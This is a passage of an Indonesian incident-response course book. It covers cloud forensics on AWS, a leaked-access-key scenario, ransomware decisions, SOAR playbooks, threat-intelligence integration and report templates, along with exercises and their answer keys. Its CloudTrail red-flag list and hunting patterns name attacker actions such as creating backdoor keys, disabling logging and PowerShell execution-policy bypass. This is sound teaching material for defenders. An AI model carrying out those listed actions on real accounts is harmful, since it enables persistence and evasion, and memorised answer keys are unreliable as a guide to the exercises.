- Customer bertanggung jawab: keamanan IN the cloud (OS, aplikasi, konfigurasi, data)

Implikasi forensik: kita tidak bisa mengakses hypervisor AWS untuk forensik,
tidak bisa akses raw disk dari instance yang dimatikan (kecuali EBS snapshot),
tidak bisa intercept traffic di level network fisik AWS.
Apa yang BISA kita akses: CloudTrail logs, VPC Flow Logs, S3 access logs, 
EBS snapshots, memory dump dari instance yang masih berjalan.
```

**AWS CloudTrail — sumber data forensik kritis:**
```python
"""
CloudTrail mencatat semua API calls ke AWS services.
Untuk IR cloud, ini adalah "endpoint log" yang setara dengan Windows Security Log.
"""

# Contoh query CloudTrail untuk IR (menggunakan AWS CLI):
# Cari semua API calls dari IP tertentu dalam jendela waktu insiden
# aws cloudtrail lookup-events \
#   --lookup-attributes AttributeKey=SourceIPAddress,AttributeValue=1.2.3.4 \
#   --start-time 2025-10-15T00:00:00Z \
#   --end-time 2025-10-15T12:00:00Z

# Red flags dalam CloudTrail logs:
red_flags = [
    "CreateUser",           # Akun baru dibuat
    "AttachUserPolicy",     # Policy baru di-attach (eskalasi hak)
    "PutBucketPolicy",      # S3 bucket policy diubah (mungkin exfiltration setup)
    "GetObject (massal)",   # Download massal dari S3
    "DescribeInstances",    # Recon terhadap EC2 instances
    "CreateAccessKey",      # API key baru dibuat (backdoor)
    "ConsoleLogin (baru)",  # Login dari IP/lokasi baru
    "StopLogging",          # CloudTrail logging dihentikan! (anti-forensic)
    "DeleteTrail",          # CloudTrail trail dihapus
]
```

**VPC Flow Logs untuk cloud network forensics:**
```
VPC Flow Logs = setara dengan NetFlow/IPFIX di on-premises.
Format: version account-id interface-id srcaddr dstaddr srcport dstport 
        protocol packets bytes start end action log-status

Contoh temuan:
2 123456789012 eni-abc123 10.0.1.100 external-IP 443 49152 6 100 150000 ... ACCEPT
→ 150KB data dikirim keluar dari instance ke IP eksternal port 443
→ Selidiki: apakah ini legitimate atau exfiltration?
```

## 5. Model atau Arsitektur

```mermaid
flowchart TD
    subgraph CLOUD_IR["Cloud IR Workflow (AWS)"]
        ALERT["Alert: GuardDuty finding\natau anomaly detection"]
        INITIAL["Initial Assessment:\nCLoudTrail + VPC Flow Logs"]
        IDENTITY["Identity Focus:\nIAM user/role yang terdampak"]
        CONTAIN["Containment Options:\n• Detach IAM policy\n• Revoke access key\n• Isolate Security Group\n• Snapshot volume untuk evidence"]
        EVID["Evidence Collection:\n• CloudTrail export\n• VPC Flow Logs\n• EBS snapshot\n• S3 access logs"]
        ERADICATE["Eradication:\n• Delete compromised IAM\n• Rotate all credentials\n• Review S3 policies\n• Check Lambda functions"]
        
        ALERT --> INITIAL
        INITIAL --> IDENTITY
        IDENTITY --> CONTAIN
        CONTAIN --> EVID
        EVID --> ERADICATE
    end
```

## 6. Contoh Terapan

**Skenario cloud IR: AWS access key ter-expose di public GitHub repository:**

```
T+0: GitHub token scanning alert — AWS access key AKIA... ditemukan di commit publik
T+5 menit: Verifikasi key masih aktif:
           aws sts get-caller-identity --access-key-id AKIA... 
           → Key AKTIF! Segera revoke!

T+7 menit: Revoke access key segera (ini adalah containment tercepat untuk cloud):
           aws iam delete-access-key --access-key-id AKIA... --user-name cicd-user

T+10 menit: Investigasi CloudTrail:
           Apakah key sudah digunakan selain oleh sistem legitimate?
           Cari: API calls dari IP yang tidak dikenal, actions yang tidak normal
           
T+20 menit: Temuan CloudTrail:
           CreateUser "backup-admin" — 3 menit setelah exposure!
           AttachUserPolicy AdministratorAccess ke backup-admin!
           CreateAccessKey untuk backup-admin!
           → Attacker sudah membuat backdoor admin sebelum key direvoke!

T+25 menit: Extended containment:
           aws iam delete-user --user-name backup-admin
           aws iam delete-access-key (semua key baru)
           Review semua IAM changes dalam 24 jam terakhir

Lessons: Window exposure bisa sangat singkat. Automation (AWS Config, 
         CloudWatch Events) yang merevoke key secara otomatis dalam detik
         sangat berharga.
```

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Menganalisis CloudTrail log excerpt untuk mendeteksi tanda-tanda compromise.

**Aktivitas:** Dosen menyediakan CloudTrail log export (JSON, anonymized) yang mengandung beberapa anomali yang harus diidentifikasi. Mahasiswa menggunakan query (jq, Python, atau AWS Athena konsep) untuk mencari red flags, menyusun timeline cloud incident, dan merekomendasikan tindakan containment.

**Output:** Cloud IR analysis notes (tidak masuk evaluasi formal — pengayaan).

## 8. Latihan Pemahaman

1. **(C4)** Mengapa "mematikan EC2 instance" bukan selalu langkah containment terbaik dalam cloud IR, berbeda dari on-premises di mana mematikan server sering menjadi pilihan?

2. **(C3)** Apa perbedaan mendasar antara forensik on-premises dan cloud dalam hal "bukti yang dapat dikumpulkan" dan "bukti yang tidak dapat dikumpulkan"?

## 9. Latihan Terapan / Studi Kasus

Organisasi Anda mengalami ransomware yang sukses mengenkripsi 80% file share. Backup terakhir yang bersih adalah 3 hari lalu. Attacker menuntut tebusan 50 Bitcoin dengan ancaman mempublikasikan data yang telah mereka exfiltrate sebelumnya. Sebagai IR Lead, susun: (a) tindakan teknis yang harus diambil dalam 24 jam pertama; (b) stakeholder yang harus dilibatkan dalam keputusan "bayar atau tidak bayar"; (c) informasi apa yang diperlukan sebelum keputusan tersebut dapat dibuat; (d) jika memutuskan untuk tidak membayar, apa rencana pemulihan yang realistis?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Mematikan EC2 instance di cloud hilangkan memory volatile (sama seperti on-premises), NAMUN tambahan: (a) instance yang dimatikan mungkin kehilangan ephemeral storage (instance store) yang tidak di-backup ke EBS; (b) beberapa billing dan log artifacts hanya accessible saat instance running; (c) lebih sulit me-restart instance dalam state yang tepat sama untuk analisis lanjutan; (d) alternatif yang lebih baik: isolasi via Security Group (block all inbound/outbound kecuali IR management), atau ambil EBS snapshot untuk forensik offline — ini mempertahankan state disk tanpa harus mematikan instance.

**Soal 2:** On-premises vs. Cloud forensics:

| Aspek | On-Premises | Cloud |
|---|---|---|
| Memory forensics | Full memory dump dari server fisik | Hanya dari dalam VM (aws ssm, atau snapshot memory — terbatas) |
| Disk forensics | Full disk image via write blocker | EBS snapshot (tanpa hypervisor metadata) |
| Network forensics | Full PCAP dari tap/mirror | VPC Flow Logs (metadata saja, tidak ada payload) |
| Hardware evidence | Server fisik sebagai evidence | Tidak ada hardware yang bisa disita |
| Log availability | Bergantung pada konfigurasi internal | CloudTrail, VPC Flow Logs (jika diaktifkan) |
| Chain of custody | Bisa dipertahankan untuk hardware | Lebih sulit untuk cloud artifacts |

**Studi Kasus Ransomware:** (a) 24 jam pertama: isolasi semua sistem terinfeksi, hentikan enkripsi aktif, preservasi evidence (memory dump, network state), verifikasi dan isolate backup dari jaringan (cegah backup terenkripsi juga), identifikasi scope penuh, mulai IR documentation. (b) Stakeholder: CEO/Board (keputusan final), Legal (implikasi hukum pembayaran, kewajiban notifikasi), Finance (kemampuan dan implikasi finansial), PR/Komkorporat (manajemen komunikasi publik), Law enforcement liaison (BSSN, Polri Siber — bisa membantu dan mungkin ada decryptor). (c) Informasi yang diperlukan: apakah decryptor dari grup ini pernah berhasil? (cek No More Ransom project), apakah data yang diklaim diexfiltrate dapat diverifikasi?, apakah ada cara recovery tanpa membayar (backup, volume shadow copy yang tersisa)?, apakah grup ini terkena sanksi OFAC?, berapa biaya downtime vs. tebusan vs. recovery from backup. (d) Recovery tanpa bayar: gunakan backup 3 hari lalu, accept 3-hari data loss atau coba recover dari email/SharePoint versi history untuk gap tersebut, timeline: estimasi 3-7 hari untuk restore penuh, komunikasikan kepada stakeholder bisnis tentang data loss gap.

## 11. Ringkasan Bab

Ransomware memerlukan respons yang sangat cepat, backup yang telah dipersiapkan dengan baik (3-2-1 dengan offline copy), dan keputusan "bayar atau tidak bayar" yang harus melibatkan banyak stakeholder dan tidak hanya tim teknis. Cloud IR berbeda dari on-premises dalam hal artefak yang tersedia: CloudTrail, VPC Flow Logs, dan EBS snapshot menggantikan raw disk forensics dan PCAP, dengan keterbatasan akses ke layer hypervisor.

## 12. Refleksi Profesional

1. Program asuransi cyber (cyber insurance) sering menanggung pembayaran ransom. Apakah keberadaan asuransi cyber mengubah insentif ekonomi bagi ransomware attacker? Apakah ada argumen bahwa asuransi cyber secara tidak langsung memperburuk epidemi ransomware? Bagaimana organisasi seharusnya mempertimbangkan faktor ini dalam manajemen risiko mereka?

---

# BAB 16 — PENGAYAAN: SOAR, CTI INTEGRATION, DAN JALUR KARIR CSIRT

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Memahami konsep SOAR (Security Orchestration, Automation and Response) dan bagaimana otomasi mempercepat IR
- Memahami integrasi Cyber Threat Intelligence (CTI) ke dalam IR workflow
- Mengetahui jalur sertifikasi dan karir dalam bidang incident response dan malware analysis

*Bab Pengayaan — tidak termasuk dalam evaluasi formal (bobot 0%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[IR Maturity Enhancement] --> B[SOAR]
    B --> B1["Orchestration:\nkoordinasi tools"]
    B --> B2["Automation:\nresponse otomatis\npada threat yang dikenal"]
    B --> B3["Response:\nplaybook digital\nyang dapat dieksekusi"]
    B --> B4["Contoh SOAR:\nSplunk SOAR, Palo Alto XSOAR,\nTheHive + Cortex"]
    A --> C[CTI Integration]
    C --> C1["MISP: platform sharing IOC\ndan threat intel"]
    C --> C2["STIX/TAXII: format dan\nprotokol sharing CTI"]
    C --> C3["CTI feeds:\nkomersial, open source,\nsector-specific ISAC"]
    C --> C4["Operationalizing CTI:\nfrom intel to detection rule"]
    A --> D[Career Pathways]
    D --> D1["Sertifikasi IR:\nGCIH, GCFE, GCFA (GIAC)"]
    D --> D2["Sertifikasi Malware:\nGREM, FOR610"]
    D --> D3["Sertifikasi Umum:\nCISSP, CEH (defensive context)"]
    D --> D4["Komunitas dan learning:\nCTF, malware challenges,\nCyberDefenders labs"]
```

## 3. Pengantar Kontekstual

Program IR yang matang tidak bergantung sepenuhnya pada respons manual — mereka menggunakan otomasi untuk menangani kasus rutin dan mengintegrasikan threat intelligence secara real-time. Bab ini juga membahas bagaimana mahasiswa dapat melanjutkan pengembangan profesional setelah lulus melalui sertifikasi dan komunitas praktisi.

## 4. Landasan Teori

### 4.1 SOAR — Security Orchestration, Automation and Response

**Masalah yang dipecahkan SOAR:**
- Volume alert tinggi (SOC menerima ribuan alert per hari — kebanyakan false positive)
- Response time yang lambat (analis manual membutuhkan menit hingga jam untuk setiap alert)
- Inkonsistensi (respons berbeda-beda bergantung pada siapa analis yang bertugas)
- Burnout analis (tugas repetitif — lookup IOC, ambil konteks — melelahkan)

**Komponen SOAR:**
1. **Orchestration:** Mengintegrasikan berbagai tools security (SIEM, EDR, firewall, ticketing, email) ke dalam satu workflow
2. **Automation:** Mengeksekusi tindakan secara otomatis tanpa human intervention untuk kasus yang jelas
3. **Response:** Menjalankan playbook digital yang terdefinisi

**Contoh SOAR playbook — Phishing Email Response:**
```yaml
# Playbook: Phishing Email Alert Response
trigger: email_reported_phishing_or_siem_alert_phishing

steps:
  1_extract:
    action: extract_email_artifacts
    inputs: [email_body, email_headers, attachments]
    outputs: [sender_email, sending_ip, attachment_hashes, urls]
    
  2_enrich:
    action: threat_intel_lookup
    inputs: [sender_ip, attachment_hashes, urls]
    sources: [virustotal, misp_internal, otx_alienvault]
    outputs: [threat_score, known_malicious: true/false]
    
  3_decision:
    condition: threat_score > 70 OR known_malicious == true
    if_true: goto step 4_auto_contain
    if_false: goto step 5_human_review
    
  4_auto_contain:
    parallel:
      - action: block_sender_in_email_gateway
      - action: block_urls_in_proxy
      - action: submit_hashes_to_edr_for_blocking
      - action: search_mailboxes_for_same_email  # find other recipients
    then: goto step 6_notify
    
  5_human_review:
    action: create_ticket_for_analyst
    priority: medium
    sla: 4_hours
    
  6_notify:
    action: notify_affected_users
    action: update_ticket_with_automated_actions
    action: escalate_if_multiple_recipients_found
```

### 4.2 CTI Integration — Dari Intel ke Deteksi

**MISP (Malware Information Sharing Platform):**
MISP adalah platform open-source untuk berbagi IOC dan threat intelligence dalam komunitas. Organisasi dapat: (a) menerima IOC dari feeds (commercial, ISAC sector-specific, open source); (b) berbagi IOC dengan komunitas (dengan TLP yang sesuai); (c) mengoperasionalkan IOC ke dalam deteksi secara otomatis.

**STIX/TAXII:**
- **STIX (Structured Threat Information eXpression):** Format standar untuk merepresentasikan CTI — IOC, TTPs, threat actors, campaigns
- **TAXII (Trusted Automated eXchange of Indicator Information):** Protokol untuk mengotransfer CTI dalam format STIX

**Operationalizing CTI:**
```
Alur CTI ke Deteksi:
1. CTI feed menghasilkan IOC baru: IP 45.133.1.100 = C2 Cobalt Strike
2. MISP menerima dan menvalidasi IOC
3. SOAR workflow terpicu:
   - Cek apakah IP ini sudah pernah dikomunikasikan dari network kita (retroactive hunt)
   - Push IP ke firewall blocklist otomatis
   - Update Sigma rule/SIEM alert untuk IP ini
4. Analyst review: apakah ada host yang sudah berkoneksi sebelum blocking?
```

**ISACs (Information Sharing and Analysis Centers):**
Komunitas sharing threat intel berdasarkan sektor industri. Indonesia: BSSN berperan sebagai koordinator. Internasional: FS-ISAC (finansial), H-ISAC (healthcare), E-ISAC (energi). Bergabung dalam ISAC memberikan akses ke intel spesifik untuk sektor organisasi Anda.

### 4.3 Jalur Karir dan Sertifikasi

**Sertifikasi GIAC (paling diakui untuk IR dan malware analysis):**
- **GCIH (GIAC Certified Incident Handler):** Fundamental IR, detection, containment, eradication
- **GCFE (GIAC Certified Forensic Examiner):** Windows forensics, evidence handling
- **GCFA (GIAC Certified Forensic Analyst):** Advanced forensics, memory analysis, artifact analysis
- **GREM (GIAC Reverse Engineering Malware):** Malware analysis, reverse engineering
- **FOR610 (SANS):** Reverse-Engineering Malware — kursus yang sangat diakui

**Sertifikasi lain:**
- **CREST CPIA:** Practical Intrusion Analysis
- **EC-Council ECIH:** EC-Council Certified Incident Handler
- **CISSP:** Untuk profesional senior dengan tanggung jawab manajerial

**Platform belajar dan latihan:**
- **CyberDefenders** (cyberdefenders.org): Blue team CTF challenges, kasus forensik realistis
- **Blue Team Labs Online** (blueteamlabs.online): Scenario-based blue team exercises
- **ANY.RUN Community** (any.run): Sandbox dengan public submissions untuk belajar analisis
- **MalwareBazaar** (bazaar.abuse.ch): Repository sampel malware untuk researcher
- **DFIR.training**: Aggregator resources latihan forensik

## 5. Model atau Arsitektur

```mermaid
flowchart LR
    subgraph CTI_FLOW["CTI to Detection Flow"]
        FEEDS["CTI Feeds:\n• Commercial threat intel\n• Open source (MISP community)\n• ISAC (sector-specific)"]
        MISP_INT["MISP Internal:\nvalidation, deduplication,\nTLP classification"]
        AUTO["SOAR Automation:\n• Block IOC di firewall\n• Update SIEM rules\n• Retroactive hunt"]
        ANALYST["Analyst Review:\n• Contextual analysis\n• Threat actor attribution\n• Strategic recommendations"]
        DEFENSE["Defense Updates:\n• New detection rules\n• Updated blocklists\n• Playbook refinements"]
        
        FEEDS --> MISP_INT
        MISP_INT --> AUTO
        AUTO --> ANALYST
        ANALYST --> DEFENSE
        DEFENSE -.->|"feed back\nconfirmed IOC"| MISP_INT
    end
```

## 6. Contoh Terapan

**Implementasi SOAR sederhana menggunakan TheHive + Cortex (open source):**

TheHive adalah case management platform open-source untuk CSIRT. Cortex adalah responder/analyzer platform yang mengintegrasikan tools analisis. Bersama mereka membentuk SOAR stack yang cukup lengkap untuk organisasi menengah.

```
Workflow TheHive + Cortex:
1. Alert masuk ke TheHive (dari SIEM, email, EDR, dll.)
2. Analis membuka case, menambahkan observables (IP, hash, domain)
3. Cortex analyzer otomatis:
   - VirusTotal lookup untuk setiap hash
   - MaxMind GeoIP untuk setiap IP
   - Shodan lookup untuk IP publik
   - MISP lookup untuk semua IOC
4. Hasil enrichment tampil langsung di TheHive case
5. Analis membuat keputusan berdasarkan enriched data
6. Cortex responder dapat mengambil tindakan:
   - Block IP di Palo Alto firewall
   - Isolate endpoint di CrowdStrike
   - Create Jira ticket untuk follow-up

Nilai: Analis tidak perlu buka 10 tab browser untuk lookup IOC secara manual.
       Waktu enrichment dari menit menjadi detik.
```

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Memahami konsep SOAR playbook design.

**Aktivitas:** Desain (tidak implementasikan) sebuah SOAR playbook untuk skenario "Deteksi akun domain yang melakukan logon dari 2 negara berbeda dalam 1 jam (Impossible Travel)." Playbook harus mencakup: trigger, langkah-langkah enrichment, keputusan otomatis vs. eskalasi ke manalis, dan tindakan response yang tepat.

## 8. Latihan Pemahaman

1. **(C4)** Apa risiko dari SOAR playbook yang terlalu agresif dalam automation (misalnya: otomatis memblokir semua akun yang flagged sebagai anomalous)? Bagaimana menyeimbangkan antara response time dan false positive risk?

2. **(C3)** Jelaskan perbedaan antara "tactical CTI" (IOC-level) dan "strategic CTI" (threat actor attribution level) dan bagaimana keduanya digunakan berbeda dalam konteks IR.

## 9. Latihan Terapan / Studi Kasus

Organisasi Anda menerima CTI dari ISAC bahwa kelompok APT tertentu sedang aktif menarget sektor perbankan Indonesia dengan teknik yang sama seperti yang Anda analisis dalam capstone (spearphishing → PowerShell downloader → credential theft). Intel mencakup: 5 domain C2 baru, 3 IP, 2 SHA256 hash payload baru. Susun: (a) immediate actions dalam 24 jam (block, hunt, monitor); (b) bagaimana Anda mem-prioritaskan hunting berdasarkan Pyramid of Pain — mana yang paling berharga untuk dideteksi?; (c) bagaimana Anda mengkomunikasikan intel ini kepada tim teknis tanpa menyebabkan false alarm yang berlebihan?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Risiko SOAR terlalu agresif: (a) False positive yang menyebabkan bisnis disruption — jika otomatis block akun, dapat memblokir akun administrator kritis saat maintenance; (b) attacker dapat menggunakan ini sebagai DoS vector: sengaja trigger false positive untuk memblokir akun legitimate; (c) kehilangan intelligence — tindakan otomatis yang terlalu cepat mungkin mengalihkan attacker sebelum scope penuh diketahui. Cara menyeimbangkan: (a) graduated response: automated enrichment + alert dulu, automated blocking hanya untuk confidence very high (>90%); (b) approval gate untuk tindakan dengan dampak tinggi (disable admin account) vs. low-impact (lookup only); (c) time-delayed automation: "jika tidak ada human review dalam 15 menit, jalankan automatic action" untuk kasus time-sensitive; (d) whitelist: daftar akun/sistem kritis yang tidak boleh di-block otomatis.

**Soal 2:** Tactical CTI vs. Strategic CTI:
- **Tactical CTI:** IOC level — IP, domain, hash, URL. Langsung actionable: block di firewall, signature update. Umur pendek (IP/domain berubah cepat). Digunakan oleh: SOC analyst, threat hunter untuk deteksi dan blocking.
- **Strategic CTI:** Threat actor level — TTP patterns, motivasi, target vertical, geopolitical context. Tidak langsung di-block di firewall. Umur panjang (TTP attacker berubah lambat). Digunakan oleh: CISO untuk risk assessment, security architect untuk defense design, CSIRT lead untuk prioritisasi.

**Studi Kasus CTI Operationalization:** (a) Immediate 24 jam: block 5 domain di DNS firewall dan proxy (jangan tunggu!), block 3 IP di perimeter firewall dengan logging (jangan silent drop — log untuk hunting), retroactive hunt menggunakan IOC baru di 30 hari log history, update EDR dengan 2 SHA256 hash baru untuk blocking. (b) Pyramid of Pain prioritisasi: Domain/IP (tier 2-3 Pyramid) bermanfaat segera tapi attacker ganti cepat; TTP patterns (tier 6 — paling sulit bagi attacker untuk ganti) lebih berharga untuk hunting. Prioritaskan hunt untuk: PowerShell dengan parameter -NoP -Exec Bypass (TTP yang sama), LSASS access dari proses yang tidak dikenal (TTP persistence), outbound HTTPS ke port non-standard (C2 behavior). Ini akan mendeteksi bahkan jika attacker ganti infrastruktur. (c) Komunikasi ke tim teknis: berikan context ("ini ancaman spesifik untuk sektor kita, bukan hanya generic alert"), berikan false positive guidance ("jika Anda melihat X, juga cek Y sebelum eskalasi"), tetapkan SLA yang jelas untuk respons (misal: setiap hit domain C2 harus di-triage dalam 30 menit).

## 11. Ringkasan Bab

SOAR mengotomasi dan mengorkestrasikan respons IR untuk meningkatkan kecepatan dan konsistensi, dengan keseimbangan antara automation dan human judgment. CTI integration — melalui MISP, STIX/TAXII, dan ISAC — memungkinkan organisasi memanfaatkan intel komunitas untuk deteksi proaktif. Jalur karir dalam IR dan malware analysis mencakup sertifikasi GIAC (GCIH, GCFA, GREM) dan platform latihan praktis.

## 12. Refleksi Profesional

1. SOAR dan CTI memerlukan investasi signifikan dalam tools, integrasi, dan personel. Organisasi kecil mungkin tidak mampu mengimplementasikan ini. Sebagai profesional keamanan siber, bagaimana Anda menyarankan organisasi kecil untuk mendapatkan beberapa manfaat dari CTI dan otomasi tanpa budget yang besar? Apa "bang for the buck" terbaik untuk organisasi dengan keterbatasan resources?


---

# LAMPIRAN

---

## LAMPIRAN A — TEMPLATE IR PLAYBOOK (INCIDENT RESPONSE PLAYBOOK)

```markdown
# IR PLAYBOOK: [JENIS INSIDEN]
## Versi: 1.0 | Terakhir Direvisi: [Tanggal] | Pemilik: [CSIRT Lead]

### 1. TRIGGER
Playbook ini diaktifkan ketika:
- Alert dari [sumber] menunjukkan [kondisi]
- Eskalasi dari Level 1 SOC karena [kriteria]
- Laporan langsung dari [pengguna/sistem] mengenai [gejala]

### 2. INFORMASI AWAL YANG DIKUMPULKAN
- Sistem yang terdampak:
- Waktu pertama kali diketahui:
- Dilaporkan oleh:
- Gejala yang diamati:
- Tindakan apa yang sudah diambil sebelum IR team terlibat:

### 3. SEVERITY ASSESSMENT
Gunakan matriks severity (Bab 2):
- Functional Impact: [ ] None [ ] Minimal [ ] Significant [ ] Critical
- Information Impact: [ ] None [ ] Privacy Breach [ ] PII [ ] Top Secret
- Recoverability: [ ] Regular [ ] Supplemented [ ] Extended [ ] Not Recoverable
- SEVERITY FINAL: [ ] LOW [ ] MEDIUM [ ] HIGH [ ] CRITICAL

### 4. TINDAKAN CONTAINMENT (STEP-BY-STEP)
Langkah 1: [Tindakan pertama — paling mendesak]
  - Siapa yang melakukan:
  - Tools yang digunakan:
  - Verifikasi berhasil:
Langkah 2: [Tindakan kedua]
  ...

### 5. EVIDENCE COLLECTION CHECKLIST
[ ] Memory dump (sebelum containment jika memungkinkan)
[ ] Network state (netstat, ss -an)
[ ] Running processes (ps aux, tasklist)
[ ] Security event logs
[ ] Sysmon logs
[ ] Firewall/proxy logs
[ ] [Log tambahan spesifik untuk jenis insiden ini]

### 6. ERADICATION CHECKLIST
[ ] Semua proses malware diterminasi
[ ] File malware dihapus (hash dicatat sebelum hapus)
[ ] Persistence mechanisms dihapus (registry, scheduled tasks, services)
[ ] Akun yang dibuat attacker dihapus
[ ] Vulnerability di-patch
[ ] Credential yang mungkin ter-compromise direset

### 7. KOMUNIKASI
Notifikasi ke SIAPA:
- Manajer IT: [ ] segera [ ] dalam 1 jam [ ] dalam 4 jam
- CISO: [ ] segera [ ] dalam 1 jam [ ] dalam 4 jam
- Management Eksekutif: [ ] segera [ ] dalam 4 jam [ ] setelah analisis awal
- Pengguna yang terdampak: [ ] segera [ ] perlu persetujuan dulu
- Regulator (BSSN/OJK): [ ] jika PII terdampak, dalam 14 hari

### 8. LESSONS LEARNED
- Apa yang berjalan baik:
- Apa yang bisa diperbaiki:
- Action items untuk perbaikan:
- Revisi playbook yang diperlukan:
```

---

## LAMPIRAN B — TEMPLATE MALWARE ANALYSIS REPORT

```markdown
# MALWARE ANALYSIS LAB REPORT

**Insiden ID:** INC-[TAHUN]-[NOMOR]
**Nama Sampel:** [nama file asli jika diketahui]
**SHA256:** [hash]
**MD5:** [hash]
**Analis:** [Nama]
**Tanggal Analisis:** [Tanggal]
**Klasifikasi TLP:** TLP:AMBER

---

## 1. EXECUTIVE SUMMARY
[1 paragraf: tipe malware, metode delivery, kapabilitas utama, 
dampak potensial, status saat laporan ditulis]

---

## 2. FILE METADATA
| Field | Value |
|---|---|
| Nama File | |
| Ukuran | bytes |
| Tipe File | (file command output) |
| MD5 | |
| SHA1 | |
| SHA256 | |
| Compile Timestamp | (jika PE, dari FILE_HEADER) |
| Packer Detected | Ya/Tidak |
| Threat Intel Match | Ya/Tidak — Keluarga: |

---

## 3. STATIC ANALYSIS FINDINGS

### 3.1 Strings Signifikan
| Kategori | String | Implikasi |
|---|---|---|
| Network | | |
| Credential | | |
| Registry | | |
| Commands | | |
| Encoded | | |

### 3.2 PE Analysis (jika Windows PE)
**Imported Libraries:**
- [Library]: [Functions yang relevan]

**Sections:**
| Section | Size | Entropy | Catatan |
|---|---|---|---|
| .text | | | |
| .data | | | |

---

## 4. BEHAVIORAL ANALYSIS FINDINGS

### 4.1 Process Tree
```
[Process tree diagram]
```

### 4.2 File System Activity
| Operasi | Path | SHA256 | Catatan |
|---|---|---|---|
| Created | | | |
| Modified | | | |
| Deleted | | | |

### 4.3 Registry Activity
| Operasi | Key | Value | Data |
|---|---|---|---|
| Created/Modified | | | |

### 4.4 Network Activity
| Protokol | Destination | Port | Payload/Pattern |
|---|---|---|---|
| DNS | | | |
| HTTP/S | | | |

### 4.5 Sandbox Evasion Attempts
[ ] Tidak terdeteksi
[ ] Time delay (durasi: ___)
[ ] Environment check (cek: ___)
[ ] VM detection

---

## 5. IOC TABLE
| Tipe | Nilai | Confidence | Sumber | ATT&CK Ref |
|---|---|---|---|---|
| IPv4 | | HIGH/MED/LOW | | |
| Domain | | | | |
| URL | | | | |
| SHA256 | | | | |
| File Path | | | | |
| Registry Key | | | | |

---

## 6. ATT&CK TTP MAPPING
| # | Behavior | Taktik | Technique | Sub-Technique | Evidence |
|---|---|---|---|---|---|
| 1 | | | | | |

---

## 7. MALWARE CLASSIFICATION
- **Tipe Utama:** [Ransomware/RAT/Infostealer/Dropper/dll.]
- **Keluarga (jika diketahui):** [Nama keluarga]
- **Confidence Classification:** [HIGH/MEDIUM/LOW]
- **Basis Classification:** [Strings/Behavior/Hash match/dll.]

---

## 8. REKOMENDASI
**Detection:**
- [Rule/signature yang harus ditambahkan]

**Prevention:**
- [Kontrol yang harus diimplementasikan]

**Hunting:**
- [Query/teknik untuk mencari kompromisi serupa di host lain]

---

## 9. LAMPIRAN
A. Screenshot bukti (jika ada)
B. YARA rule draft
C. Sigma rule draft
```

---

## LAMPIRAN C — TEMPLATE CSIRT REPORT LENGKAP

```markdown
# LAPORAN INSIDEN KEAMANAN SIBER

**KLASIFIKASI:** TLP:AMBER — Distribusi Terbatas (Internal + CSIRT Partners)
**Insiden ID:** INC-[TAHUN]-[NOMOR]
**Tanggal Insiden Pertama Diketahui:** [Tanggal, Waktu, TZ]
**Tanggal Laporan:** [Tanggal]
**Versi Laporan:** [1.0 / 2.0 — update]
**Disusun oleh:** [Nama/Tim]
**Disetujui oleh:** [Nama, Jabatan]

---

## 1. EXECUTIVE SUMMARY
[2-3 paragraf: apa yang terjadi, dampak, tindakan, status saat ini]

## 2. KRONOLOGI INSIDEN (TIMELINE)
| Timestamp (UTC) | Sumber | Event | Signifikansi |
|---|---|---|---|
| | | | |

## 3. PENILAIAN DAMPAK

### 3.1 Sistem yang Terdampak
| Sistem | Status | Dampak |
|---|---|---|
| | Dikompromis/Investigasi/Aman | |

### 3.2 Data yang Terdampak
- Jenis data:
- Jumlah record (estimasi):
- Klasifikasi data:
- Bukti exfiltration: Ada/Tidak Ada/Belum Dikonfirmasi

### 3.3 Dampak Finansial (Estimasi)
- Downtime cost:
- IR cost:
- Remediation cost:
- Total estimasi:

## 4. ANALISIS TEKNIS

### 4.1 Initial Access Vector
[Bagaimana attacker masuk]

### 4.2 Attack Progression
[Bagaimana serangan berkembang setelah initial access]

### 4.3 Attacker Objective (Hipotesis)
[Apa yang ingin dicapai attacker — dengan confidence level]

## 5. IOC TABLE LENGKAP
[Lihat template di Lampiran B]

## 6. ATT&CK TTP MAPPING
[Tabel lengkap]

## 7. TINDAKAN YANG DIAMBIL

### 7.1 Containment
[Detail tindakan, timestamp, siapa]

### 7.2 Eradication
[Detail, verifikasi]

### 7.3 Recovery
[Metode recovery, validasi, monitoring pasca]

## 8. REKOMENDASI (DIPRIORITASKAN)

### CRITICAL (implementasi dalam 7 hari)
1. [Action] — Owner: [Siapa] — Target: [Tanggal]

### HIGH (implementasi dalam 30 hari)
1. [Action] — Owner: [Siapa] — Target: [Tanggal]

### MEDIUM (implementasi dalam 90 hari)
1. [Action] — Owner: [Siapa] — Target: [Tanggal]

## 9. STATUS NOTIFIKASI REGULASI
| Regulator | Kewajiban | Deadline | Status |
|---|---|---|---|
| BSSN | Laporan insiden | [Tanggal] | Belum/Sudah |
| OJK (jika FSI) | Laporan breach | 14 hari | |

## 10. LAMPIRAN
A. Evidence inventory (chain of custody)
B. Malware analysis report (jika ada)
C. YARA/Sigma rules yang dibuat
D. Communication log
E. Contact list CSIRT dan vendor
```

---

## LAMPIRAN D — TEMPLATE IOC TABLE

```markdown
# IOC TABLE — [Insiden ID]

**Tanggal:** [Tanggal]
**TLP:** TLP:AMBER
**Sumber:** [Internal CSIRT / CTI Feed / ISAC]

## NETWORK IOC

| # | Tipe | Nilai | Confidence | Tanggal Pertama Diamati | Status | Sumber | ATT&CK |
|---|---|---|---|---|---|---|---|
| 1 | IPv4 | | HIGH | | Active/Inactive | | T1071 |
| 2 | Domain | | | | | | |
| 3 | URL | | | | | | |
| 4 | JA3 Hash | | | | | | |
| 5 | User-Agent | | LOW | | | | |

## HOST IOC

| # | Tipe | Nilai | Confidence | Platform | Sumber | ATT&CK |
|---|---|---|---|---|---|---|
| 1 | SHA256 | | HIGH | Windows | EDR | |
| 2 | File Path | | | Windows | Sysmon E11 | |
| 3 | Registry Key | | | Windows | Sysmon E13 | |
| 4 | Scheduled Task | | | Windows | Sysmon E1 | |
| 5 | Service Name | | | Windows | | |

## BEHAVIORAL IOC

| # | Tipe | Deskripsi | Platform | ATT&CK |
|---|---|---|---|---|
| 1 | Process Tree | Word.exe → cmd.exe → powershell.exe | Windows | T1059.001 |
